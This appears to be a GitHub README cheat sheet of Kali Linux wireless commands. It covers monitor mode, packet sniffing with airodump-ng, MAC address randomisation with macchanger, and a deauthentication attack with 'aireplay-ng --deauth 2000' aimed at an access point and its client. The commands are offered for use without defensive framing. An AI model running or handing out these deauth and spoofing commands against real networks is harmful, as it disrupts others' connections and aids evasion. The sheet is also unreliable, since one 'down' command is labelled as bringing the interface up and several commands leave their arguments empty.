 # Kali-Linux-Commands

## Enabling Monitor Mode

Show all network devices `iwconfig` 
To make sure network device is up and running `ifconfig wlan1 up` 
Show all network cards `airmon-ng`
To prevent from disabling monitor mode `airmon-ng check kill`
Start monitor mode `airmon-ng start wlan1`

## Reset to normal mode

`airmon-ng stop wlan1mon` : Stop monitor mode
`service network-manager start` : Restart network settings

## Sniffing Packets using airodump-ng

`airodump-ng wlan1mon` : Start sniffing
*PWR = Signal Strength should be above than -70*

`airodump-ng --bssid wlan1mon` :  Targeted sniffing


## macchanger

`ifconfig wlan1 down` : Bring down the interface
`macchanger -r wlan1` : Change mac address to random
`ifconfig wlan1 down` : Bring the interface up

## Deauth Attacks

`airodump-ng --channel --bssid  wlan1mon`
`aireplay-ng --deauth 2000 -a [MAC of Access Point] [MAC of  Client] wlan1mon`







